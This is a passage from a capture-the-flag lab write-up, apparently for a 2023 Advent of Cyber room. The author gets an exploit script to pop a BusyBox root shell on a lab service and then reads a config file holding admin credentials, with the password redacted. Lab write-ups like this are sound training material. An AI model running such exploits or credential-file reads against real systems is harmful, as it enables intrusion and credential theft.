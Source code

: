 This would have been a screen the original author might have even seen at one point as they played with sending data and subtly changing values to figure out how many bytes to send across the wire to write just the right amount to execute their payload... Someday I will go research the arcana necessary to do so as well. But for today, let's just look at what we found a bit closer.

There's a whole lot of hex in here, but there's also truncated hex and ascii @ mixed in to where I'd have expected more \x## references... perhaps the string I encoded isn't being sent properly to the application, and perhaps the original was closer than I originally thought. I'll revert my changes and switch the string to a bytestring instead and try again.

This time the debugger didn't crash, it just sat there looking stupid (as there was no break points set up yet, which is apparently a thing you can do) but I got this odd output from my script:

```bash
┌──(tokugero㉿kali)-[~/…/rooms/aoc2023/task2/ass]
└─$ python3 easymode.py localhost 50628
/home/tokugero/thm/rooms/aoc2023/task2/ass/easymode.py:2: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet

BusyBox v1.21.1 (2013-12-19 20:11:55 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```

What's a nice looking shell like you doing in a place like this? Will it work on the remote machine?

```
┌──(tokugero㉿kali)-[~/…/rooms/aoc2023/task2/ass]
└─$ python3 easymode.py 10.10.232.34 50628
/home/tokugero/thm/rooms/aoc2023/task2/ass/easymode.py:2: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  from telnetlib import Telnet



BusyBox v1.21.1 (2013-12-19 20:11:55 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
Yes it did! Let's confirm where we're at by checking on that admin password in a config we know exists.

# cat /var/etc/umconfig.txt
cat /var/etc/umconfig.txt
TABLE=users

ROW=0
name=admin
password=<redacted>
group=administrators
prot=0
disable=0
```
It can and it certainly does.

